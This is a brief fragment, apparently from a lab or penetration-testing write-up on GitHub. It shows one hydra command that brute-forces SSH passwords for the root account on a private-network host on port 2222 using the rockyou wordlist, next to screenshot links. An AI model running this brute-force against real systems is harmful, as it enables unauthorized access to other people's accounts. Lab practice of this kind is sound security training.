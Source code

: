 hydra -l root -P /usr/share/wordlists/rockyou.txt -s 2222 192.168.229.134 ssh  

<img width="1208" height="653" alt="image" src="https://github.com/user-attachments/assets/07281223-1daf-4691-99d8-06538e8b32e8" />



